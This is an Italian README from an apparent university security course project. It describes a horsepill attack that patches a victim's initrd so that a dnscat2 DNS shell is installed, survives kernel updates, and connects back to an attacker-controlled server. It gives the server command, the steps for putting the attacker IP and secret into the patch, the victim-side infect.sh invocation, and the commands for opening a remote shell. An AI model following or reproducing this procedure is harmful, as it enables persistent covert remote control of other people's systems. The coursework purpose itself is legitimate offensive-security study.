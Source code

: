 # Network and System Defence project
## Alessandro Chillotti (mat. 0299824)

## Traccia del progetto (traduzione)
È richiesto produrre un payload (utilizzando qualunque vettore) che è in grado di installare una DNS shell (e.g. guardare [qui](https://github.com/sensepost/DNS-Shell)) utilizzando un horsepill attack. Il payload deve essere in grado di sopravvivere agli update del kernel.

## Come effettuare l'attaco
### Configurazione del server dnscat2
È necessario mettere up and running un server `dnscat2` e per fare questo è necessario eseguire i seguenti comandi:

1. Effettuare la clone del [repository](https://github.com/iagox86/dnscat2.git) di dnscat2 e seguire le indicazioni per la configurazione dell'ambiente.
2. Spostarsi all'interno dentro la directory `server`.
3. Eseguire il seguente comando
```[bash]
bundle exec ruby dnscat2.rb --dns 'host=xxx.xxx.xxx.xxx,port=53531'
```
### Preparazione dell'attacco
Sulla macchina di lavoro è necessario configurare correttamente il [file](horsepill-attack.patch) di patch, ovvero bisogna aggiornare:

- L'indirizzo IP della macchina sulla quale connetersi
- La secret che verrà fornita nel momento in cui il server `dnscat2` sarà up and running

Una volta che la patch è configurata correttamente, dovrà essere inviata alla macchina vittima insieme al file [infect.sh](infect.sh).
### Esecuzione sulla macchina vittima
Una volta che la macchina vittima è in possesso dei file (horsepill-attack.patch)[horsepill-attack.patch] e [infect.sh](infect.sh) bisogna eseguire il seguente comando:
```[bash]
./infect.sh ABSOLUTE_PATH_INITRD ABSOLUTE_PATH_PATCH
```
### Shell sulla macchina host
Al termine dell'esecuzione dello script [infect.sh](infect.sh) verrà effettuato il reboot della macchina vittima e, una volta completato, si noterà nel processo server di `dnscat2` una nuova connessione.

Una volta ricevuta la connessione è necessario digitare il comando `window -i 1` e poi il comando `shell`. A questo punto si ottiene una shell sh facilmente utilizzabile.